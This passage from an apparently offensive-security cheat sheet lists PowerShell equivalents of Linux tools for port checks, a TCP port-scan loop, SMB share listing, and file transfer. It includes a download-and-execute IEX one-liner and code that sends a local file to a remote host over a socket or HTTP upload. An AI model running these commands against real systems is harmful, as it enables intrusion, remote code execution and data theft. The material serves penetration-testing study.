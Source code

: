 ### Networking

<pre class="language-powershell" data-title="nc -v $IP $PORT"><code class="lang-powershell"><strong>Test-NetConnection -Port 22 10.10.10.10
</strong></code></pre>

<pre class="language-powershell" data-title="nmap -p $PORTS $IP" data-overflow="wrap"><code class="lang-powershell"><strong>1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("10.10.10.10", $_)) "TCP port $_ is open"} 2>$null
</strong></code></pre>

&#x20;<mark style="color:blue;">**↳**</mark> The above loop is **very slow** because it goes through ports one by one with a timeout

<pre class="language-powershell" data-title="SMB: List shares on dc01"><code class="lang-powershell"><strong>net view \\dc01 /all
</strong></code></pre>

<pre class="language-powershell" data-title="Interactive netcat"><code class="lang-powershell">dism /online /Enable-Feature /FeatureName:TelnetClient

<strong>telnet 10.10.10.10 25  # SMTP
</strong></code></pre>

&#x20;<mark style="color:blue;">**↳**</mark> This feature needs to be already enabled, or enabled by you as an administrator

{% code title="wget $URL -O $FILE" %}
```powershell
iwr http://10.10.10.10/file.txt -o file.txt
```
{% endcode %}

{% code title="curl $IP | sh" %}
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/script.ps1');
```
{% endcode %}

<pre class="language-powershell" data-title="nc $IP $PORT < $FILE"><code class="lang-powershell">$client = New-Object System.Net.Sockets.TcpClient
<strong>$client.Connect("10.10.10.10", 8000)
</strong>$writer = New-Object System.IO.StreamWriter($client.GetStream())
<strong>$bytes = (Get-Content -Encoding byte "C:\Windows\win.ini")
</strong>$writer.BaseStream.Write($bytes, 0, $bytes.Length)
$writer.Flush()
</code></pre>

&#x20;<mark style="color:blue;">**↳**</mark> For larger file transfers, you can also do this over HTTP with [`python3 -m uploadserver`](https://pypi.org/project/uploadserver/):

```powershell
curl.exe -X POST http://10.10.10.10:8000/upload -F 'files=@C:\Windows\win.ini'
```

### Files
